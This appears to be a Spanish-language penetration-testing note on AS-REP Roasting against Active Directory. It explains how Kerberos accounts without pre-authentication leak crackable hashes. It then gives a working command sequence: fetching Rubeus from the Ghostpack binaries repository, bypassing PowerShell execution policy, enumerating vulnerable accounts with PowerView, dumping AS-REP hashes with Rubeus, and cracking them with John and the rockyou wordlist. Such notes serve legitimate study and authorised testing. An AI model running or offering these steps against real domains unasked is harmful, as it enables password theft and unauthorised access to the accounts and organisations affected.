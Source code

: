 # AS-REP Roasting 

Tags: #AD #Windows #AS-REP #Powershell 

Es una técnica usada para explotar una debilidad en el protocolo de autentificacion de Kerberos. Kerberos es comúnmente usado en los entornos de AD para propósitos de autenticacion. AS-REP específicamente abusa de la vulnerabilidad en la manera en que Kerberos solicita la autenticacion. En el protocolo de Kerberos cuando un usuario quiere autenticarse al servicio, envían un 'Authentication Service Request' (AS-REQ) para la 'Key Distribution Center' (KDC). La KDC después responde  con un 'Authentication Service Reply' (AS-REP), el cual incluye a 'Ticket-Granting-Ticket' (TGT). El TGT es encriptado usando el hash de la password del usuario. 

AS-REP toma ventaja de la manera que algunas cuentas de usuarios en AD puede tener la opción activada 'Do not Require Kerberos preauthentication'. Esta opción permite a el AS-REP ser solicitado sin necesidad de una password de usuario. Un atacante puede identificar esas cuentas vulnerables para solicitar en AD ese tipo de cuentas sin esa opción activada. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ git clone https://github.com/szalek/Ghostpack-CompiledBinaries.git /opt/windows/GhostpackBinaries
❯ mkdir -p /home/kali/workspace/www && cd /home/kali/workspace/www
❯ cp /opt/windows/GhostpackBinaries/Rubeus.exe .
```

```bash 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*"} # Identificar cuentas de usuarios que tienen 'Do not Require Kerberos preauthentication'

❯ .\Rubeus.exe asreproast /usr:<user> /outfile:userhash.txt   # Hacer el AS-REP 'Roasting' para obtener el hash del usuario el cual se almacenara en el archivo llamada 'userhash.txt'
```

```bash 
# El hash lo podemos crackear en Kali 
❯ john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt userhash.txt    # Crackear un hash con un formato especifico
	# krb5asrep = Kerberos AS-REP
```
